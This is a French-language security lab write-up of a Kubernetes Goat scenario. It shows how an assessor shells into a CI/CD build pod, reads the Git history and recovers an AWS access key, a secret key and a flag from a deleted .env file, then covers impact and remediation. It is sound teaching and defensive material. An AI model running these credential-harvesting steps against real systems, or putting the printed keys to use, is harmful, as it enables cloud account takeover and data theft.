



# SC-CLD-001 — Sensitive Keys in Codebases

## Classification

| Champ | Valeur |
|-------|--------|
| **Scénario** | SC-CLD-001 |
| **Cible** | Build Code Service (CI/CD) — Kubernetes Goat |
| **VLAN** | 30 — Cloud Lab (192.168.30.0/24) |
| **Cluster** | K3s 3 nœuds (master + 2 workers) |
| **Sévérité** | 🔴 Critique |
| **CVSS 3.1** | 9.1 (Critical) — AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:L |
| **CWE** | CWE-798 (Hard-coded Credentials), CWE-540 (Inclusion of Sensitive Information in Source Code) |
| **MITRE ATT&CK** | T1552.001 (Unsecured Credentials: Credentials in Files), T1213 (Data from Information Repositories) |
| **Date** | 20 février 2026 |
| **Auteur** | hik3nR00t |

---

## Résumé exécutif

Un service de build CI/CD déployé dans le cluster Kubernetes expose son code source avec l'historique Git complet à l'intérieur du container. L'analyse de l'historique des commits révèle des clés d'accès AWS (Access Key ID + Secret Access Key) commitées par erreur puis supprimées dans un commit ultérieur. L'historique Git conserve l'intégralité des modifications, rendant la suppression inefficace. Un attaquant exploitant cette vulnérabilité obtient un accès complet aux ressources cloud AWS de l'entreprise.

**Risque** : Critique — Compromission totale de l'infrastructure cloud, exfiltration de données, impact réglementaire majeur.

---

## Kill Chain



---

## Scope & méthodologie

- **Périmètre** : Pod `build-code-deployment` dans le namespace `default`
- **Approche** : Boîte noire → accès initial via RCE simulé (kubectl exec), puis reconnaissance interne
- **Outils** : git (natif dans le container), kubectl
- **Référentiel** : OWASP Kubernetes Security, CIS Kubernetes Benchmark, MITRE ATT&CK Cloud Matrix

---

## Phase 1 — Reconnaissance

### Découverte du service

Le service `build-code-service` est exposé sur le port 3000 dans le cluster. L'interface web affiche un message de bienvenue mentionnant un pipeline CI/CD utilisant Git, Docker et AWS.

```
Build Code
Welcome to the build code service. This service is built using containers
with CI/CD pipelines and modern toolset like Git, Docker, AWS, and many other.
```

### Accès au container

Simulation d'un RCE (Remote Code Execution) obtenu via une vulnérabilité applicative :

```bash
kubectl exec -it <build-code-pod> -- /bin/sh
```

### Énumération du système de fichiers

```bash
/app # ls -la
drwxrwxr-x    4 1000     1000          4096 May 19  2022 .
drwxr-xr-x    1 root     root          4096 Feb 20 13:04 ..
drwxrwxr-x    8 1000     1000          4096 May 19  2022 .git
-rw-rw-r--    1 1000     1000           180 Nov  6  2020 README.md
-rwxrwxr-x    1 1000     1000      11773672 Nov  8  2020 app
-rw-rw-r--    1 1000     1000           105 Nov  6  2020 go.mod
-rw-rw-r--    1 1000     1000         49893 Nov  6  2020 go.sum
-rw-rw-r--    1 1000     1000           420 Nov  6  2020 main.go
drwxrwxr-x    2 1000     1000          4096 May 19  2022 views
```

**Constat critique** : Le répertoire `.git` est présent dans le container de production. L'image Docker embarque l'historique complet du code source.

---

## Phase 2 — Exploitation

### Analyse de l'historique Git

```bash
/app # git log --oneline
905dcec (HEAD -> master) Final release
3292ff3 Updated the docs
7daa5f4 updated the endpoints and routes
d7c173a Inlcuded custom environmental variables
bb2967a Added ping endpoint
599f377 Basic working go server with fiber
4dc0726 Initial commit with README
```

**Commit suspect identifié** : `d7c173a` — "Inlcuded custom environmental variables". Ce message suggère l'ajout de variables d'environnement pouvant contenir des secrets.

### Extraction des secrets

```bash
/app # git show d7c173ad183c574109cd5c4c648ffe551755b576
```

**Résultat — fichier `.env` ajouté :**

```
+[build-code-aws]
+aws_access_key_id = AKIVSHD6243H22G1KIDC
+aws_secret_access_key = cgGn4+gDgnriogn4g+34ig4bg34g44gg4Dox7c1M
+k8s_goat_flag = k8s-goat-51bc78332065561b0c99280f62510bcc
```

### Vérification de la suppression

```bash
/app # cat .env
cat: can't open '.env': No such file or directory
```

Le fichier `.env` a été supprimé dans un commit ultérieur. Le développeur pensait avoir nettoyé les credentials. **L'historique Git conserve toutes les modifications — la suppression est inefficace.**

---

## Données exfiltrées

| Donnée | Valeur | Risque |
|--------|--------|--------|
| AWS Access Key ID | `AKIVSHD6243H22G1KIDC` | Authentification AWS |
| AWS Secret Access Key | `cgGn4+...Dox7c1M` | Accès complet au compte |
| Flag K8s Goat | `k8s-goat-51bc78332065561b0c99280f62510bcc` | Preuve de compromission |

---

## Impact technique

Avec les clés AWS, un attaquant peut :

- **Exfiltration** : Lister et télécharger tous les buckets S3 (données clients, articles, bases de données)
- **Persistence** : Créer des utilisateurs IAM, des clés supplémentaires, des backdoors Lambda
- **Destruction** : Supprimer des instances EC2, des bases RDS, des backups
- **Pivot** : Accéder à d'autres services AWS (SES pour phishing, Route53 pour DNS hijacking)
- **Crypto mining** : Lancer des instances GPU pour du mining aux frais de l'entreprise

---

## Impact métier — MediaTech Groupe SA

### Matrice de risque



### Financier
- Coûts de remédiation d'urgence (forensic, rotation des clés, audit complet)
- Facturation AWS non autorisée (crypto mining, instances malveillantes)
- Perte de revenus liée à l'interruption des services numériques
- Amendes réglementaires potentielles

### Réputationnel
- Un groupe de presse compromis perd la confiance de ses sources et de ses lecteurs
- Couverture médiatique négative (l'arroseur arrosé)
- Perte de partenaires commerciaux et annonceurs

### Réglementaire
- **RGPD** : Obligation de notification CNIL sous 72h si données personnelles impactées (abonnés, journalistes, sources). Amendes jusqu'à 4% du CA mondial
- **NIS2** : Non-conformité aux obligations de sécurité des entités essentielles/importantes. Sanctions administratives
- **ISO 27001** : Non-conformité A.9.4.3 (gestion des secrets), risque de perte de certification

### Opérationnel
- L'attaquant peut chiffrer les données S3 (ransomware cloud)
- Exfiltration d'articles avant publication (perte d'exclusivité)
- Compromission des pipelines CI/CD (supply chain attack)

---

## Remédiation — Secure by Design

### Immédiat (24h)
1. **Révoquer** immédiatement les clés AWS compromises via IAM Console
2. **Auditer** CloudTrail pour identifier toute utilisation malveillante des clés
3. **Générer** de nouvelles clés avec le principe du moindre privilège

### Court terme (1 semaine)
4. **Supprimer `.git`** des images Docker — ajouter `.git` dans `.dockerignore`
5. **Utiliser des builds multi-stage** pour exclure le code source de l'image finale
6. **Implémenter des pre-commit hooks** avec truffleHog ou gitleaks pour bloquer les commits contenant des secrets
7. **Migrer les secrets** vers un gestionnaire dédié (HashiCorp Vault, AWS Secrets Manager, Kubernetes External Secrets)

### Moyen terme (1 mois)
8. **Scanner tous les repos** de l'organisation avec gitleaks pour identifier d'autres fuites historiques
9. **Implémenter une politique de rotation** automatique des clés (90 jours max)
10. **Configurer AWS GuardDuty** pour détecter l'utilisation anormale de credentials
11. **Former les développeurs** aux bonnes pratiques de gestion des secrets

### Architecture cible — Secure by Design



---

## Statistiques réelles (2024-2025)

| Métrique | Valeur | Source |
|----------|--------|--------|
| Secrets exposés sur GitHub public (2024) | 23,8 millions | GitGuardian 2025 |
| Augmentation annuelle | +25% | GitGuardian 2025 |
| Secrets encore actifs après 2 ans | 70% | GitGuardian 2025 |
| Repos publics avec au moins 1 secret | 4,6% | GitGuardian 2025 |
| Temps d'exploitation après exposition | < 5 minutes | GitGuardian 2025 |
| Entreprises Forbes AI 50 avec fuites confirmées | 65% | GitProtect 2026 |

---

## Références

- [OWASP — Kubernetes Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Kubernetes_Security_Cheat_Sheet.html)
- [CWE-798 — Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)
- [CWE-540 — Inclusion of Sensitive Information in Source Code](https://cwe.mitre.org/data/definitions/540.html)
- [MITRE ATT&CK T1552.001 — Credentials in Files](https://attack.mitre.org/techniques/T1552/001/)
- [GitGuardian — State of Secrets Sprawl 2025](https://www.gitguardian.com/state-of-secrets-sprawl-report-2025)
- [truffleHog — Git Secrets Scanner](https://github.com/trufflesecurity/trufflehog)
- [gitleaks — Secrets Detection](https://github.com/gitleaks/gitleaks)

---

*HikenRoot Forge — SC-CLD-001 — hik3nR00t — Février 2026*
